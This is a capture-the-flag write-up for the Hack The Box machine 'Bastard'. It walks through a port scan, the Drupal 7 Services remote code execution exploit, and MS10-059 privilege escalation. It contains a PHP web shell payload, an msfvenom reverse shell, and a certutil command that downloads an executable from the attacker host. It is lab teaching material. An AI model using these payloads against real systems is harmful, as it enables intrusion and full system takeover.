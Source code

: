```yaml
---
title: "HTB Bastard"
permalink: /writeups/bastard
location: default
---
```


# HTB Bastard

**Machine Information**

	IP : 10.10.10.9
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`. 

```
rustscan -a 10.10.10.9 -- -sC -sV
```

This should reveal three open ports: `80`, `135`, and `49154`.

```
PORT      STATE SERVICE REASON  VERSION
80/tcp    open  http    syn-ack Microsoft IIS httpd 7.5
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-title: Welcome to Bastard | Bastard
|_http-server-header: Microsoft-IIS/7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries 
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php 
| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/ 
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/ 
| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/ 
|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
135/tcp   open  msrpc   syn-ack Microsoft Windows RPC
49154/tcp open  msrpc   syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Getting a Foothold

**Drupal Exploit**

The `nmap` output shows that the web server is running `Drupal 7` which can be confirmed using the `CHANGELOG.txt` file.

<http://10.10.10.9/CHANGELOG.txt>

Use `searchsploit` to look for exploits for `Drupal 7`.

```
searchsploit drupal 7
```

This will reveal a PHP exploit that results in remote code execution.

```
Drupal 7.x Module Services - Remote Code Execution | php/webapps/41564.php
```

Reviewing the exploit shows it is looking for the `/rest_endpoint` endpoint but trying to visit this page returns a 404 error. After running `dirsearch` though we can see an endpoint at `/rest`.

```
dirsearch -u http://10.10.10.9
```

This can be confirmed by visiting the page in a browser.

<http://10.10.10.9/rest>

```
Services Endpoint "rest_endpoint" has been setup successfully.
```

Modify the exploit to use our target IP and endpoint. We want to set the payload to a reverse shell.

```php
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$phpCode = <<<'EOD'
<?php
    if (isset($_REQUEST['fupload'])) {
        file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.4:8000/" . $_REQUEST['fupload']));
    };
    if (isset($_REQUEST['fexec'])) {
        echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
    };
?>
EOD;

$file = [
    'filename' => 'shell.php',
    'data' => $phpCode
];
```

Run the exploit to upload a web shell. We can use the web shell to run commands on the target system.

```
http://10.10.10.9/shell.php?fexec=whoami
```

To get a full shell we will create a payload using `msfvenom`.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f exe > shelly.exe
```

Use our web shell to upload this to our target machine.

```
http://10.10.10.9/shell.php?fexec=certutil -urlcache -f http://10.10.14.4/shelly.exe shelly.exe
```

Start a new `netcat` listener and run the executable.

```
http://10.10.10.9/shell.php?fexec=shelly.exe
```

Success!

```
C:\inetpub\drupal-7.54>whoami
nt authority\iusr
```

The user flag can be found in the following directory:

```
C:\Users\dimitris\Desktop\user.txt
```

### Privilege Escalation

Checking `systeminfo` shows that no hotfixes have been applied so the machine is likely vulnerable.

```
Hotfix(s):                 N/A
```

Upload the `Chimichurri.exe` exploit to the target machine. It can be obtained from the following link:

<https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe>

Transfer it to the target machine and start a new `netcat` listener. Once listening run the exploit to get an elevated shell.

```
.\MS10-059.exe 10.10.14.4 9001
```

Success!

```
C:\temp>whoami
nt authority\system
```

The root flag can be retrieved from the following directory:

```
C:\Users\Administrator\Desktop\root.txt
```
